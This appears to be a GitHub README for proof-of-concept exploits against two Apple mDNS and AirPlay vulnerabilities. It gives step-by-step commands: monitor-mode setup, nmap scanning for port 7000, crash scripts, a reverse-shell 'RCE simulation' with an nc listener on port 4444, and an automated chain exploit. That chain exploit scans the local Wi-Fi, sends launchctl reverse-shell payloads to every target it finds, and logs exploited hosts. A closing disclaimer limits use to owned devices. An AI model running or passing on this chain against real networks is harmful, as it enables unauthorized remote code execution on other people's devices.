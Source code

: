 # AIRBORNE – 2-PoCs-1-Repository

PoCs for **CVE-2025-24252** and **CVE-2025-24132**  

Discovered and detailed by Oligo Security

https://www.oligo.security/blog/airborne

Both bugs live in Apple’s parsing of network data—specifically in Bonjour/mDNS and AirPlay’s TCP pairing flow.

---

## CVE-2025-24252 – mDNS TXT Record Crash Trigger

This vulnerability affects `AirPlayReceiver` and is triggered via malformed mDNS TXT records.

### Setup on Kali Linux

```bash
sudo apt update
sudo apt install python3-scapy avahi-daemon -y
sudo systemctl start avahi-daemon
```
**Wi-Fi Adapter Requirement**

To run crashtest_CVE-2025-24252.py and chain_exploit.py, you must use a Wi-Fi adapter that supports monitor mode.

### Before running the scanner or chain exploit, make sure to

```bash
sudo ip link set wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ip link set wlan0 up
```

Replace wlan0 with the name of your adapter

You must be on the same Wi-Fi network as the target Apple devices

Monitor mode is required to properly receive multicast mDNS traffic over port 5353

### Clone the Repo

```bash
git clone https://github.com/ekomsSavior/AirBorne-PoC.git
cd AirBorne-PoC
```

### Configure the PoC

```bash
nano crashtest_CVE-2025-24252.py
```

Set your attacker IP and interface. Then save and exit (`CTRL+X`, then `Y`, then `ENTER`).

### Run the PoC

```bash
sudo python3 crashtest_CVE-2025-24252.py
```

### Monitor Target Behavior

Use `tcpdump` or Wireshark to capture traffic on the Apple device’s IP.

> Only test this on your own Apple devices in a safe lab setting.

---

## CVE-2025-24132 – AirPlay Pairing Heap Overflow

This bug is in the `AirPlayScreen` component and can trigger a heap overflow by sending malformed pairing/init packets over TCP port 7000.

---

### Scan for Vulnerable AirPlay Hosts

```bash
nmap -p 7000 --open --script=banner <your-local-subnet>/24
```

---

### Crash PoC: TCP Malformed Packet

A low-level socket-based fuzzing PoC that can be expanded into an RCE trigger.

Edit the script

```bash
nano PoC_CVE-2025-24132.py
```

Set your target IP. Then run

```bash
python3 PoC_CVE-2025-24132.py
```

Watch for
- System reboots
- Pairing process freezes
- AirPlay UI or app crashes

If observed, a heap overflow condition is likely confirmed.

---

## From Crash to Code Execution – CVE-2025-24132 RCE Simulation

### Overview

Trigger CVE-2025-24132 to simulate executing a reverse shell or `launchctl` job on a vulnerable or jailbroken Apple device.

Steps
- Overflow heap cleanly
- Inject shell command or plist-based job
- Trigger reverse shell or persistent execution

### What We Know

- AirPlay runs on TCP port `7000`
- `pairing-init` POST requests are vulnerable when oversized
- The protocol may accept binary plist payloads or plain XML

---

### Run the RCE Simulation Script

```bash
nano CVE-2025-24132_RCE.py
```

Set your
- `target_ip` (your Apple device)
- `attacker_ip` (your Kali machine)

Start your listener

```bash
nc -lvnp 4444
```

Then launch the PoC

```bash
python3 CVE-2025-24132_RCE.py
```

This sends a forged `launchctl` payload with a reverse shell string. Works only if the device is jailbroken or unpatched.

---
---

## **Combined Exploit Chain – Discovery to Exploitation**

`chain_exploit.py` links both CVEs into one seamless attack path:  
- Scans for AirPlay targets using mDNS (CVE-2025-24252 scan logic)
- Automatically launches the TCP pairing RCE payload (CVE-2025-24132)

This simulates how a real-world attacker could automate device discovery and exploit delivery in a local Wi-Fi environment.

### Features

- Automatic mDNS discovery of vulnerable Apple AirPlay devices
- Launches forged `pairing-init` payloads to port 7000
- Embedded reverse shell string inside a `launchctl` XML plist
- Live scanning mode (`--live`) for continuous background operation
- All successful targets are logged to `exploited_hosts.log`
- ASCII banner because we don’t miss 😤

### Run the Chain Exploit

```bash
nano chain_exploit.py
```

Set your
- `iface` — your active wireless interface (e.g. wlan0)
- `attacker_ip` — your Kali machine IP
- `attacker_port` — listener port (default: 4444)

Start your listener

```bash
nc -lvnp 4444
```

Then run

```bash
sudo python3 chain_exploit.py
```

Or to run continuously and re-scan every 10 seconds:

```bash
sudo python3 chain_exploit.py --live
```

### Output

- All discovered targets are printed
- Successful payloads are sent to each IP found
- All exploited IPs are saved to `exploited_hosts.log` with timestamps

> Note: Real reverse shell execution only occurs on jailbroken or unpatched Apple devices.

---

## DISCLAIMER

This project is for **educational and research purposes only**.

USER ASSUMES FULL RESPONSIBILITY WHEN UTILIZING THIS TOOL.  
**Only test on networks and devices you own or have explicit permission to test on.**

Unauthorized use may violate laws or terms of service.  
Use responsibly and ethically.

